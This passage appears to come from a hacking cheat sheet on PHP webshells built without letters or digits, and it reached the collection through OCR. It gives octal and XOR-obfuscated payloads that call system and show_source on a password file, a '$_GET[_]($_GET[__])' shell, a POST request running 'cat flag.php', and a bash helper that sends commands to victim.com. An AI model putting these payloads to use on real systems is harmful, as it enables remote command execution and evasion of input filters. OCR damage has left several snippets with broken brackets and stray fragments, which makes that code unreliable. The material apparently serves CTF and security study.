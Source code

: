 ```
### Using octal

```php
$_="\163\171\163\164\145\155(\143\141\164\40\56\160\141\163\163\167\144)"; #system(cat .passwd);
```
```
### **XOR**

```php
$_=("%28"^"[").("%33"^"[").("%34"^"[").("%2c"^"[").("%04"^"[").("%28"^"[").("%34"^"[").("%2e"^"[").("%29"^"[").("%38"^"[").("%3e"^"["); #show_source
$__=("%0f"^"!").("%2f"^"_").("%3e"^"_").("%2c"^"_").("%2c"^"_").("%28"^"_").("%3b"^"_"); #.passwd
$___=$__; #Could be not needed inside eval
$_($___); #If ¢___ not needed then $_($__), show_source(.passwd)
```
```
### XOR easy shell code

According to [[https://mgp25.com/ctf/Web-challenge/|**this writeup** ]]the following it's possible to generate an easy shellcode this way:

```php
$_="{{{"^"?<>/"; // $_ = '_GET';
${$_}[[${$_}[__]); // $_GET[_]($_GET[__]|_]];

$_="{{{"^"?<>/";${$_}[[${$_}[__]); // $_ = '_GET'; $_GET[_]($_GET[__]|_]];
```
```
So, if you can **execute arbitrary PHP without numbers and letters** you can send a request like the following abusing that payload to execute arbitrary PHP:

```
POST: /action.php?_=system&__=cat+flag.php
Content-Type: application/x-www-form-urlencoded

comando=$_="{{{"^"?<>/";${$_}[[${$_}[__]|_]];
```
```
For a more in depth explanation check [[https://ctf-wiki.org/web/php/php/#preg_match|https://ctf-wiki.org/web/php/php/#preg_match]]

### XOR Shellcode (inside eval)

```bash
#!/bin/bash

if [[ -z $1 ]]; then
  echo "USAGE: $0 CMD"
  exit
fi

CMD=$1
CODE="\$_='\
```
```
```php
lt;>/'^'{{{{';\${\$_}[[\${\$_}[__]|_]];" $_='
```
```
```php
lt;>/'^'{{{{'; --> _GET` `${$_}[[${$_}[__]); --> $_GET[_]($_GET[__]|_]]` `So, the function is inside $_GET[_] and the parameter is inside $_GET[__] http --form POST "http://victim.com/index.php?_=system&__=$CMD" "input=$CODE"
```
```
### Perl like

```php
```